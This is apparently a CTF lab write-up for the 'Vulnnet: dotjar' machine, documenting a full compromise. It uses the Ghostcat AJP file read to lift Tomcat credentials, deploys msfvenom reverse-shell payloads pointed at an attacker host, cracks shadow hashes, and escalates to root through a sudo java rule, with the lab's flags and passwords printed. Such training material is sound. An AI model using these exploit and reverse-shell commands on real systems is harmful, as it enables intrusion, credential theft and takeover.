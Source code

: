 # Vulnnet: dotjar

## Enumeration



```bash
cmd: sudo nmap -oN nmap/simple 10.10.186.166

PORT     STATE SERVICE
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

```bash
cmd: sudo nmap -sC -sV -p 8009,8080 10.10.186.166 -oN nmap/ver

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
```

- 8009: seems empty
- 8080: basic tomcat page

**No searchsploit entries for Jserv and Tomcat 9.0.30**

## Googling 

- Tomcat version, no findings also
- Jserv 1.3 (hacktricks has a page only for it)
	- By using **"CVE-2020-1938 'Ghostcat'"** -> LFI
	- Get **WEB-IFNF/web.xml**: ```python exp.py -p 8009 -f "WEB-INF/web.xml" 10.10.186.166 > web.xml```
	- Got creds -> ```webdev:Hgj3LA$02D$Fa@21```


The message (in web.xml) also stated that **"GUI access is disabled for security reasons."** meaning that we can't use the webpage to auth (**/manager**)...

## Exploiting

Use a [tool](https://github.com/tomcatmanager/tomcatmanager): ```pip install tomcatmanager && tomcat-manager```

```bash
tomcat-manager > connect http://10.10.186.166:8080/manager webdev
Password:Hgj3LA$02D$Fa@21
# success!
```

Need to generate a war file to be deployed

```bash
cmd: msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.128.84 LPORT=1414 -f war -o rce.war

#inside tomcat manager
tomcat-manager > deploy local rce.war /sampleapp
```


1. Listen at the defined port
2. access: http://address:8080/sampleapp

**Success!**

## Machine Enumeration
	

```bash
cmd: whoami && id
web
uid=1001(web) gid=1001(web) groups=1001(web)

cmd: cat /etc/passwd | grep -E '/*sh'
root:x:0:0:root:/root:/bin/bash
jdk-admin:x:1000:1000:jdk-admin,,,:/home/jdk-admin:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
```

### Backups found!

```bash
-rw-r--r--  1 root root       485 Jan 16  2021 shadow-backup-alt.gz	
```

**Get the zip file and passwd, to unshadow and crack the password's hases**
	
## Cracking shadow hashes

```bash
cmd: unshadow passwd shadow
cmd: john --wordlist=rockyou-75.txt unshadowed
794613852        (jdk-admin)

cmd: su jdk-admin
Password: 794613852

cmd: whoami && id
jdk-admin
uid=1000(jdk-admin) gid=1000(jdk-admin) groups=1000(jdk-admin),24(cdrom)

cmd: cat ~/user.txt
# Flag: THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```	

## Enumeration

```bash	
cmd: sudo -l 
	
	User jdk-admin may run the following commands on vulnnet-dotjar:
	    (root) /usr/bin/java -jar *.jar
```

We can probably reuse the inital .war file (but a .jar needs to be generated)

```bash	
cmd: msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp LHOST=10.9.128.84 LPORT=1415 -o privesc.jar
		
# It failed: java.lang.OutOfMemoryError: Java heap space sent 10, rcvd 43 : Connection reset by peer
```

- I tried to compile locally, but different versions
- Compiled on the machine (the code is in these note's repo folder jar_privesc)

```bash
cmd (compile): javac privesc.java
cmd (build jar): jar cfvm privesc.jar MANIFEST.MF privesc.java
cmd (run): sudo /usr/bin/java -jar privesc.jar
cmd: whoami && id

root
uid=1000(jdk-admin) gid=1000(jdk-admin) euid=0(root) egid=0(root) groups=0(root),24(cdrom),1000(jdk-admin)

cmd: cat /root/root.txt
# FLAG: THM{464c29e3ffae05c2e67e6f0c5064759c}
```